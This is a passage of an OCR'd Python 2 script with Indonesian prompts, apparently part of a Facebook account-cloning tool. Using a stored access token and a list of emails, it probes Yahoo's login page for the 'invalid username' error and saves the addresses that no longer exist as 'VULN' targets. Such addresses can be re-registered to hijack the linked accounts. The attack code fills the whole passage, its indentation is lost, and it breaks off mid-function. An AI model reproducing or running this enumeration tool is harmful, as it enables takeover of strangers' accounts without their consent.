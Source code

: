 pek = jok.search(klik).group()
 except:
 continue
 if '"messages.ERROR_INVALID_USERNAME">' in pek:
 save.write("Nama: "+ nama +"ID :" + id +"Email: "+ mail + '\n')
 print("\033[1;96m[\033[1;97mVULN✓\033[1;96m] \033[1;92m" +mail+" \033[1;96m=>\x1b[1;97m"+nama)
 berhasil.append(mail)
 except KeyError:
 pass
 print 42*"\033[1;96m="
 print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
 print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
 print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/GrupMailVuln.txt"
 save.close()
 raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
 menu()

def clone_dari_file():
 global toket
 os.system('clear')
 try:
 toket=open('login.txt','r').read()
 except IOError:
 print"\033[1;96m[!] \x1b[1;91mToken invalid"
 os.system('rm -rf login.txt')
 time.sleep(1)
 login()
 try:
 os.mkdir('out')
 except OSError:
 pass
 os.system('clear')
 print logo
 print 42*"\033[1;96m="
 files = raw_input("\033[1;96m[+] \033[1;93mNama File \033[1;91m: \033[1;97m")
 try:
 total = open(files,"r")
 mail = total.readlines()
 except IOError:
 print"\033[1;96m[!] \x1b[1;91mFile tidak ditemukan"
 raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
 menu()
 mpsh = []
 jml = 0
 jalan('\033[1;96m[✺] \033[1;93mStart \033[1;97m...')
 print('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
 save = open('out/FileMailVuln.txt','w')
 print 42*"\033[1;96m="
 mail = open(files,"r").readlines()
 for pw in mail:
 mail = pw.replace("\n","")
 jml +=1
 mpsh.append(jml)
 yahoo = re.compile(r'@.*')
 otw = yahoo.search(mail).group()
 if 'yahoo.com' in otw:
 br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
 br._factory.is_html = True
 br.select_form(nr=0)
 br["username"] = mail
 klik = br.submit().read()
 jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
 try: